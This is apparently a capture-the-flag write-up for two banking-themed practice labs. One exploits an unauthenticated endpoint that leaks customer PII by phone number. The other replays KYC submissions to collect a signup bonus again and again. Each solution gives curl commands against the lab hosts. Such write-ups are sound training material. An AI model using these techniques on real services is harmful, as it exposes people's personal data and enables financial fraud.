 ## ** [The Vault Heist](https://defhawk.com/battleground/practice-lab/the-vault-heist) : Unauthenticated API Exploitation**

### **Description to Participants**  
As a part of the challenge, you must gain access to all the details associated with a user account registered on the platform with the following:  
- **Email Address:** `acmeuser@nonexistentdomain.com`  
- **Phone Number:** `8928172127`  

### **Solution**  
Analyzing the source code, you will see that the application exposes an unauthenticated API endpoint present under "acme_banking_lab % less customerSupportApp/app.js"
`/getCustomerInfo/userDetails/<mobile number>`  
<img width="1433" alt="image" src="https://github.com/user-attachments/assets/7f800999-5e82-4718-9cbb-435b77039a29" />

This endpoint, intended for the customer support panel, leaks Personally Identifiable Information (PII) of registered users when queried with their registered mobile numbers. No authentication or authorization is required to access this data.

#### **Steps to Exploit**  
1. Use the following `curl` request to query the vulnerable API endpoint:
   ```bash
   curl https://sca.challenges.defhawk.com:5000/getCustomerInfo/userDetails/8928172127
   ```
2. The API will return user details, including the flag located in the `"address"` field.

### **Challenge Flag**  
```
HACK_QUEST{..}
```

---

## **[Phantom Profile](https://defhawk.com/battleground/practice-lab/phantom-profile): Exploiting Business Logic for Unlimited Rewards**

### **Description to Participants**  
Your challenge is to exploit the banking system to get more than `1337` rupees in your bank account. Once completed, send an HTTP request to:  
`http://localhost:3000/ctf/validateChall2`  
If the condition is satisfied, you will receive the flag.

### **Solution**  
The issue lies in the server-side logic of the `/account/updateKYC` endpoint. The server does not validate whether a user has already completed their KYC, allowing repeated submissions of KYC details. Each KYC submission triggers a 100-rupee signup bonus, enabling users to repeatedly gain bonuses.

#### **Steps to Exploit**  
1. Obtain a valid session token (`sessToken`) after logging into the system.
2. Send multiple `POST` requests to the `/account/updateKYC` endpoint using the following `curl` command:  
   ```bash
   curl -X POST https://sca.challenges.defhawk.com:3000/account/updateKYC \
   -b "sessToken=<token>" \
   -F "homeAddress=123 Main Street, Cityville" \
   -F "panCard=@<path_to_pan_card_image>"
   ```
3. Repeat the above request until the account balance exceeds `1337` rupees.
4. Send a final HTTP request to the validation endpoint to receive the flag:
   ```bash
   curl http://localhost:3000/ctf/validateChall2
   ```

### **Challenge Flag**  
```
HACK_QUEST{..}
```

